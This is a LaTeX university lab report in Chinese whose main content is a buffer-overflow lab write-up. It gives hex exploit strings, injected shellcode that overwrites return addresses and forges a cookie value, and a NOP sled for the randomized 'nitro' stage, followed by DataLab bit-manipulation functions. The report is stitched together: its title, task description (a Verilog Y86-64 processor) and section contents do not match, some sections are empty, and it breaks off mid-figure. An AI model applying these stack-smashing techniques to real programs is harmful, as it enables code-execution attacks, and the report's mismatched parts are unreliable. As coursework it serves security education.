\documentclass[11pt,a4paper]{ctexart}
% 调整页面大小,默认页面与常用规格不符
\usepackage[margin=1in,top=1.5in]{geometry}
\pagestyle{headings}
\usepackage[utf8]{inputenc}

\usepackage{float}

% 插入数学及电学符号
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}

% 插入附件
\usepackage{navigator}

% 引用链接可点击
\usepackage{cite}
\usepackage[colorlinks,linkcolor=black,anchorcolor=blue,citecolor=green]{hyperref}

% 插入图片
\usepackage{graphicx}

% 绘制各种图形,包括电路图,函数图
\usepackage{tikz}
\usepackage{pgfplots}

\makeatletter
\newcommand\dlmu[2][4cm]{\hskip1pt\underline{\hb@xt@ #1{\hss#2\hss}}\hskip3pt}
\makeatother


% 标题居左 显示成如下情况 一、标题
\ctexset{
	section={
		name={第,章},
		number=\arabic{section},
		format=\Large\bfseries\raggedright\heiti
	},
}

% 设置页眉
\usepackage{fancyhdr}
\pagestyle{fancy}
\fancyhf{} % 清空当前的页眉页脚
\fancyhead[C]{\heiti 计算机系统实验报告}

% 用于插入C代码
\usepackage{listings}


% 调整代码的背景和风格
\usepackage{xcolor}
\lstset{
	%行号
	numbers=left,
	%背景框
	framexleftmargin=10mm,
	frame=none,
	%背景色
	%backgroundcolor=\color[rgb]{1,1,0.76},
	backgroundcolor=\color[RGB]{245,245,244},
	%样式
	keywordstyle=\bf\color{blue},
	identifierstyle=\bf,
	numberstyle=\color[RGB]{0,192,192},
	commentstyle=\it\color[RGB]{0,96,96},
	stringstyle=\rmfamily\slshape\color[RGB]{128,0,0},
	%显示空格
	showstringspaces=false
}


\bibliographystyle{plain}

\numberwithin{figure}{section}


\begin{document}
\heiti
\begin{titlepage}
	\centering
	\rule[1.10cm]{\linewidth}{0cm}

	
\includegraphics[width=0.4\linewidth]{../Banner}
	
	\vspace{0.5cm}
	\textbf{\zihao{0} 实验报告}
	
	\vspace{1cm}
	\textbf{{\Huge 实验(二)}}
	
	\begin{LARGE}
		\vspace{2cm}
		题\rule{38pt}{0pt}目 \dlmu[6cm]{DataLab数据表示} \\ \vspace{4pt}
		专\rule{38pt}{0pt}业 \dlmu[6cm]{计算机系} \\ \vspace{4pt}
		学\rule{38pt}{0pt}号 \dlmu[6cm]{1160300202}\\ \vspace{4pt}
		班\rule{38pt}{0pt}级 \dlmu[6cm]{1603002}\\ \vspace{4pt}
		学\rule{38pt}{0pt}生 \dlmu[6cm]{冯云龙}\\ \vspace{4pt}
		指导教师 \dlmu[6cm]{刘宏伟}\\ \vspace{4pt}
		实验地点 \dlmu[6cm]{G712}\\ \vspace{4pt}
		实验日期 \dlmu[6cm]{2017/10/17}\\ \vspace{4pt}
	\end{LARGE}
	
	\vfill
	{\huge \textbf{计算机科学与技术学院}}% 底部插入当日日期
\end{titlepage}

\tableofcontents
\newpage
\section{任务基本信息}

\subsection{作业要求}
用Verilog实现Y86-64的顺序结构-SEQ,要求:

\begin{enumerate}
    \item 在现有Y86-64 ISA基础上增加iaddq指令,即ISA+;
    \item 利用一种硬件描述语言如Verilog,设计能够支持ISA+的SEQ;
    \item 进行模拟验证;
    \item 进行逻辑综合(选做,加分项目)
\end{enumerate}

提示:可参照“Verilog Implementation of a Pipelined Y86-64 Processor”文档(waside-verilog.pdf),写出SEQ的Verilog实现。 

\subsection{实验环境与工具}

\begin{itemize}
    \item Vivado
    \item ModelSIM
\end{itemize}
 %实验基本信息
\section{实验环境建立}
\subsection{Linux下CodeBlocks反汇编(10分)}
CodeBlocks运行hellolinux.c。反汇编查看printf函数的实现。
要求:C、ASM、内存(显示hello等内容)、堆栈(call printf前)、寄存器同时在一个窗口。

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.55\linewidth]{figures/Linux-Clion}
	\caption{Linux下CLion截图}
	\label{fig:linux-clion}
\end{figure}

\subsection{Linux下EDB运行环境建立(10分)}

用EDB调试hellolinux.c的执行文件,截图,要求同 \ref{fig:linux-clion}。

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.5\linewidth]{figures/Linux-EDB}
	\caption{Linux下EDB截图}
	\label{linux-edb}
\end{figure}

 %实验环境建立
\section{各阶段漏洞攻击原理与方法}
\begin{center}
    每阶段25分,文本10分,分析15分,总分不超过80分
\end{center}

\subsection{Smoke的破解与分析}

\textbf{文本如下:}
\begin{lstlisting}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
19 10 40 00 00 00 00 00
\end{lstlisting}

\textbf{分析过程:}
\begin{lstlisting}
00000000004015d5 <getbuf>:
    4015d5:	48 83 ec 28          	sub    $0x28,%rsp
    4015d9:	48 89 e7             	mov    %rsp,%rdi
    4015dc:	e8 f6 fa ff ff       	callq  4010d7 <Gets>
    4015e1:	b8 01 00 00 00       	mov    $0x1,%eax
    4015e6:	48 83 c4 28          	add    $0x28,%rsp
    4015ea:	c3                   	retq
\end{lstlisting}
从这里我们可以看到getbuf函数的栈相关情况。
\begin{tabular}{|c|c|}
    \hline 
    栈 & 位置 \\ 
    \hline 
    getbuf返回地址(0x00) & rbp \\ 
    \hline 
    (-0x04) & ... \\ 
    \hline 
    ... & ... \\ 
    \hline 
    (-0x28) & buf  \& rsp \\ 
    \hline 
\end{tabular} 

\begin{lstlisting}
0000000000401019 <smoke>:
    401019:	48 83 ec 08          	sub    $0x8,%rsp
    40101d:	bf cf 26 40 00       	mov    $0x4026cf,%edi
    401022:	e8 69 fc ff ff       	callq  400c90 <puts@plt>
    401027:	bf 00 00 00 00       	mov    $0x0,%edi
    40102c:	e8 ba 06 00 00       	callq  4016eb <validate>
    401031:	bf 00 00 00 00       	mov    $0x0,%edi
    401036:	e8 c5 fd ff ff       	callq  400e00 <exit@plt>
\end{lstlisting}

查到smoke的函数地址是0x00401019。 由于我的系统是小端序,将其按小端序重写是19 10 40 00 00 00 00 00。 将返回地址覆盖,只需要将原先的buf区域全部填0即可,0x28 = 40个字节。

\subsection{Fizz的破解与分析}

\textbf{文本如下:}
\begin{lstlisting}
bf 1b fe f6 51 68 3b 10
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 3c 68 55 00 00 00 00
\end{lstlisting}

\textbf{分析过程:}

\begin{lstlisting}
000000000040103b <fizz>:
    40103b:	48 83 ec 08          	sub    $0x8,%rsp
    40103f:	89 fa                	mov    %edi,%edx
    401041:	3b 3d 65 51 20 00    	cmp    0x205165(%rip),%edi
    401047:	75 20                	jne    401069 <fizz+0x2e>
    401049:	be ea 26 40 00       	mov    $0x4026ea,%esi
    40104e:	bf 01 00 00 00       	mov    $0x1,%edi
    401053:	b8 00 00 00 00       	mov    $0x0,%eax
    401058:	e8 73 fd ff ff       	callq  400dd0 <__printf_chk@plt>
    40105d:	bf 01 00 00 00       	mov    $0x1,%edi
    401062:	e8 84 06 00 00       	callq  4016eb <validate>
    401067:	eb 14                	jmp    40107d <fizz+0x42>
    401069:	be 38 25 40 00       	mov    $0x402538,%esi
    40106e:	bf 01 00 00 00       	mov    $0x1,%edi
    401073:	b8 00 00 00 00       	mov    $0x0,%eax
    401078:	e8 53 fd ff ff       	callq  400dd0 <__printf_chk@plt>
    40107d:	bf 00 00 00 00       	mov    $0x0,%edi
    401082:	e8 79 fd ff ff       	callq  400e00 <exit@plt>
\end{lstlisting}

这里发现Fizz用edi与cookie进行比较,所以需要修改edi寄存器的值。

首先进入gdb查到buf的地址是0x55683cb0。

让程序运行我注入的代码:
\begin{lstlisting}
0:	bf 1b fe f6 51       	mov    $0x51f6fe1b,%edi  #cookie
5:	68 3b 10 40 00       	pushq  $0x40103b         #fizz
a:	c3                   	retq
\end{lstlisting}
修改了edi的值之后返回到fizz函数即可。

\subsection{Bang的破解与分析}

\textbf{文本如下:}
\begin{lstlisting}
c7 04 25 a4 61 60 00 1b
fe f6 51 68 87 10 40 00
c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 3c 68 55 00 00 00 00
\end{lstlisting}

\textbf{分析过程:}
\begin{lstlisting}
0000000000401087 <bang>:
401087:	48 83 ec 08          	sub    $0x8,%rsp
40108b:	8b 15 13 51 20 00    	mov    0x205113(%rip),%edx
401091:	3b 15 15 51 20 00    	cmp    0x205115(%rip),%edx
401097:	75 20                	jne    4010b9 <bang+0x32>
401099:	be 58 25 40 00       	mov    $0x402558,%esi
40109e:	bf 01 00 00 00       	mov    $0x1,%edi
4010a3:	b8 00 00 00 00       	mov    $0x0,%eax
4010a8:	e8 23 fd ff ff       	callq  400dd0 <__printf_chk@plt>
4010ad:	bf 02 00 00 00       	mov    $0x2,%edi
4010b2:	e8 34 06 00 00       	callq  4016eb <validate>
4010b7:	eb 14                	jmp    4010cd <bang+0x46>
4010b9:	be 08 27 40 00       	mov    $0x402708,%esi
4010be:	bf 01 00 00 00       	mov    $0x1,%edi
4010c3:	b8 00 00 00 00       	mov    $0x0,%eax
4010c8:	e8 03 fd ff ff       	callq  400dd0 <__printf_chk@plt>
4010cd:	bf 00 00 00 00       	mov    $0x0,%edi
4010d2:	e8 29 fd ff ff       	callq  400e00 <exit@plt>
\end{lstlisting}
和上一题的思路类似,这一次修改的是一个全局变量。
同理,进行代码注入。
\begin{lstlisting}
0:	c7 04 25 a4 61 60 00 	movl   $0x51f6fe1b,0x6061a4
7:	1b fe f6 51
b:	68 87 10 40 00       	pushq  $0x401087
10:	c3                   	retq
\end{lstlisting}

\subsection{Bomb的破解与分析}

\textbf{文本如下:}
\begin{lstlisting}
b8 1b fe f6 51 68 ba 11
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 3c 68 55 00 00 00 00
\end{lstlisting}

\textbf{分析过程:}
\begin{lstlisting}
000000000040119d <test>:
    40119d:	53                   	push   %rbx
    40119e:	48 83 ec 10          	sub    $0x10,%rsp
    4011a2:	b8 00 00 00 00       	mov    $0x0,%eax
    4011a7:	e8 d7 ff ff ff       	callq  401183 <uniqueval>
    4011ac:	89 44 24 0c          	mov    %eax,0xc(%rsp)
    4011b0:	b8 00 00 00 00       	mov    $0x0,%eax
    4011b5:	e8 1b 04 00 00       	callq  4015d5 <getbuf>
    4011ba:	89 c3                	mov    %eax,%ebx
\end{lstlisting}

可以看到,只需要回到4011ba这个位置就可以,而后将返回值eax修改为cookie即可。

构造攻击指令如下:
\begin{lstlisting}
0:	b8 1b fe f6 51       	mov    $0x51f6fe1b,%eax
5:	68 ba 11 40 00       	pushq  $0x4011ba
a:	c3                   	retq
\end{lstlisting}

\subsection{nitro的破解与分析}

\textbf{文本如下:}
\begin{lstlisting}
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 b8
1b fe f6 51 68 3d 12 40 00 c3
40 3b 68 55 0A
\end{lstlisting}

\textbf{分析过程:}

\begin{lstlisting}
0000000000401220 <testn>:
    401220:	53                   	push   %rbx
    401221:	48 83 ec 10          	sub    $0x10,%rsp
    401225:	b8 00 00 00 00       	mov    $0x0,%eax
    40122a:	e8 54 ff ff ff       	callq  401183 <uniqueval>
    40122f:	89 44 24 0c          	mov    %eax,0xc(%rsp)
    401233:	b8 00 00 00 00       	mov    $0x0,%eax
    401238:	e8 ae 03 00 00       	callq  4015eb <getbufn>
    40123d:	89 c3                	mov    %eax,%ebx
00000000004015eb <getbufn>:
    4015eb:	48 81 ec 08 02 00 00 	sub    $0x208,%rsp
    4015f2:	48 89 e7             	mov    %rsp,%rdi
    4015f5:	e8 dd fa ff ff       	callq  4010d7 <Gets>
    4015fa:	b8 01 00 00 00       	mov    $0x1,%eax
    4015ff:	48 81 c4 08 02 00 00 	add    $0x208,%rsp
    401606:	c3                   	retq
\end{lstlisting}
这一次testn调用n次getbufn,任务要求是getn返回cookie给testn:
构造攻击指令如下。
\begin{lstlisting}
0:	b8 1b fe f6 51       	mov    $0x51f6fe1b,%eax
5:	68 3d 12 40 00       	pushq  $0x40123d
a:	c3                   	retq
\end{lstlisting}

看一下每一次的写入字符串的位置是多少以确定将来我们要跳转到哪个位置。 我的分别是: 0x55683ad0 0x55683b20 0x55683b40 0x55683b00 0x55683a60

可以看到最高的地址是0x55683b40,之后我们跳转到这个位置,由于字符串有0x208(520)个字节,我们全部填入nop(0x90),将我们注入的命令写入高位字节,使得跳转之后始终可以到达我们注入的命令。

\subsection{最终破解结果展示}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.7\linewidth]{figures/solution}
    \caption{破解结果}
    \label{fig:solution}
\end{figure}
 %C语言的位操作指令
\section{测试}
\begin{center}
    总分10分
\end{center}

\subsection{测试方法}


\subsection{测试结果评价}


\subsection{自测试结果}

 %汇编语言的位操作指令
\section{BITS函数实验与分析}
\begin{center}
    每题8分,总分不超过80分
    截图:  \$ ./btest –f 函数名
\end{center}

\subsection{函数lsbZero的实现及说明}

\paragraph{程序如下:}
\begin{lstlisting}[language = c]
int lsbZero(int x) {
	return x & ((1 << 31) >> 30);
}
\end{lstlisting}

\begin{figure}[H]
\begin{minipage}[c]{0.5\linewidth}
\paragraph{设计思想:}主要考虑获得0xfffffffe,即处lsb为0外,其他位全部为1的值与x相与。
\end{minipage}
\begin{minipage}[c]{0.4\linewidth}
\centering

\includegraphics[width=0.9\linewidth]{figures/lsbzero}
\caption{btest截图-lsbZero}
\label{fig:lsbzero}
\end{minipage}
\end{figure}

\subsection{函数byteNot的实现及说明}

\textbf{程序如下:}
\begin{lstlisting}[language = c]
int byteNot(int x, int n) {
	return x ^ (0xFF << (n << 3));
}
\end{lstlisting}

\begin{figure}[H]
\begin{minipage}[c]{0.5\linewidth}
\textbf{设计思想:}发现数值与1异或可以取反,将需要取反的字节的与0xff对齐进行异或即可。	
\end{minipage}
\begin{minipage}[c]{0.4\linewidth}
\centering

\includegraphics[width=0.9\linewidth]{figures/HIT}
\caption{btest截图-byteNot}
